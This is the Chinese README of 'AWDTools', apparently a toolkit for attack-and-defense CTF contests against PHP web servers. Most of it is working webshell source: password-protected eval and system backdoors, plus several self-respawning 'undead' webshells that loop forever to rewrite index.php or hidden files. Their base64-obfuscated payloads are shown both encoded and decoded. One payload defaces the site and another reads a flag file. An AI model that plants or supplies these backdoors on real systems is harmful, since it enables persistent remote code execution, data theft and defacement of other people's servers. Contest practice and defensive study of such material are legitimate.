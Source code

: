 # AWDTools 说明

## V1.0.0
| Python版本 | 适用语言 | 版本   | 最近更新时间 |
| :----------: | :--------: | :------: | :------------: |
| 3.8+       | php      | V1.0.0 | 2021.12.13    |

## 使用

> 安装所需第三方库
```
pip install -r requirements.txt
```
> 运行命令
```
python main.py
```

## 功能
### 命令执行
> 根据一句话木马后门或者已种后门马来填写攻击`WebShell`来进行攻击

### 木马种植
> 根据一句话木马后门或者已种后门马来填写种马`WebShell`来进行种马

### 文件读取
> 根据一句话木马后门或者已种后门马来填写文件读取`WebShell`来读取文件

### 目标扫描
> 还未开发

### 定时攻击
> 还未开发

## 木马描述
> 双层`MD5`的`D1noH3rmesk1t`的值为：`ddbaedeb6010fcd8df373dd723ff6920`

### common_horse_1
```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @eval($_POST['d1no']);
    }
?>
```

### common_horse_2
```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @system($_POST['d1no']);
    }
?>
```

### undead_horse_1
> 命令执行不死马

```php
<?php
    ignore_user_abort(True);
    set_time_limit(0);
    unlink(0);
    $file='/var/www/html/public/lndex.php';
    $code='PD9waHAKICAgIGlmIChtZDUobWQ1KCRfR0VUWydoMyddKSk9PSdkZGJhZWRlYjYwMTBmY2Q4ZGYzNzNkZDcyM2ZmNjkyMCcpIHsKICAgICAgICBmaWx0ZXJfdmFyX2FycmF5KGFycmF5KCJ0ZXN0Ij0+JF9QT1NUWyJkMW5vIl0pLGFycmF5KCJ0ZXN0Ij0+YXJyYXkoImZpbHRlciI9PkZJTFRFUl9DQUxMQkFDSywib3B0aW9ucyI9PiJldmFsIikpKTsKICAgIH0KICAgIEBzeXN0ZW0oJ2VjaG8gIkhhY2tlZCBieSBIM3JtZXNrMXQuIiA+IC92YXIvd3d3L2h0bWwvcHVibGljL2luZGV4LnBocCcpOwo/Pg==';
    while (1) {
        file_put_contents($file, base64_decode($code));
        usleep(10);
    }
?>
```
> base64 内容

```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        filter_var_array(array("test"=>$_POST["d1no"]),array("test"=>array("filter"=>FILTER_CALLBACK,"options"=>"eval")));
    }
    @system('echo "Hacked by H3rmesk1t." > /var/www/html/public/index.php');
?>
```

### undead_horse_2
> 直接读取文件不死马

```php
<?php 
    system('while true;do echo "PD9waHAKICAgIGlmIChtZDUobWQ1KCRfR0VUWydoMyddKSk9PSdkZGJhZWRlYjYwMTBmY2Q4ZGYzNzNkZDcyM2ZmNjkyMCcpIHsKICAgICAgICBAZmlsZV9nZXRfY29udGVudHMoJy9mbGFnJyk7CiAgICAgICAgQGluY2x1ZGUoJy9mbGFnJyk7CiAgICAgICAgQHJlcXVpcmUoJy9mbGFnJyk7CiAgICB9Cj8+" | base64 -d >> /var/www/html/.lndex.php;sleep 0.1;done;');
?>
```

> base64 内容

```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @file_get_contents('/flag');
        @include('/flag');
        @require('/flag');
    }
?>
```

### undead_horse_3
> 追加文件写入

```php
<?php
    $file='/var/www/html/public/router.php'; // Must file exists
    $code='PD9waHAgQHN5c3RlbSgnd2hpbGUgdHJ1ZTtkbyBlY2hvICJQejQ4UDNCb2NBb2dJQ0FnYVdZZ0tHMWtOU2h0WkRVb0pGOUhSVlJiSjJnekoxMHBLVDA5SjJSa1ltRmxaR1ZpTmpBeE1HWmpaRGhrWmpNM00yUmtOekl6Wm1ZMk9USXdKeWtnZXdvZ0lDQWdJQ0FnSUVCbGRtRnNLQ1JmVUU5VFZGc25aREZ1YnlkZEtUc0tJQ0FnSUgwS1B6ND0iIHwgYmFzZTY0IC1kID4+IC92YXIvd3d3L2h0bWwvcHVibGljLy5jb25maWcucGhwO3NsZWVwIDU7ZG9uZTsnKTs/Pg==';
    file_put_contents($file, base64_decode($code), FILE_APPEND);
?>
```
> base64 内容

```php
<?php @system('while true;do echo "Pz48P3BocAogICAgaWYgKG1kNShtZDUoJF9HRVRbJ2gzJ10pKT09J2RkYmFlZGViNjAxMGZjZDhkZjM3M2RkNzIzZmY2OTIwJykgewogICAgICAgIEBldmFsKCRfUE9TVFsnZDFubyddKTsKICAgIH0KPz4=" | base64 -d >> /var/www/html/public/.config.php;sleep 5;done;');?>
```
> base64 内容

```php
?><?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @eval($_POST['d1no']);
    }
?>
```

### undead_horse_4
> 写入`.htaccess`或者`.user.ini`文件